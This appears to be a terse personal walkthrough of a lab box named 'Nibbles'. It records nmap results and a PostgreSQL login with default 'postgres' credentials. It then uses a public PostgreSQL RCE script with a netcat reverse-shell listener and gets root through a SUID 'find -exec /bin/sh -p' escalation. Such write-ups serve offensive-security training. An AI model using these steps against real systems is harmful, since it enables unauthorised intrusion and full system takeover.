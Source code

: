 # Nibbles
# date 4-8-2023
# 192.168.207.47


# nmap
PORT    STATE  SERVICE      VERSION
21/tcp  open   ftp          vsftpd 3.0.3
22/tcp  open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp  open   http         Apache httpd 2.4.38 ((Debian))
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds



└─$ psql -h 192.168.207.47 -p 5437 -U postgres
pass postgres


# Exploitation

postgreSQL python rce

https://github.com/squid22/PostgreSQL_RCE
modify exploit
└─$ python3 postgresql_rce.py
nc -lvnp 80
we got shell


# priv esc
 find / -perm -4000 -type f 2>/dev/null 

 gtfo bins >> find

 find . -exec /bin/sh -p \; -quit

 we got root
 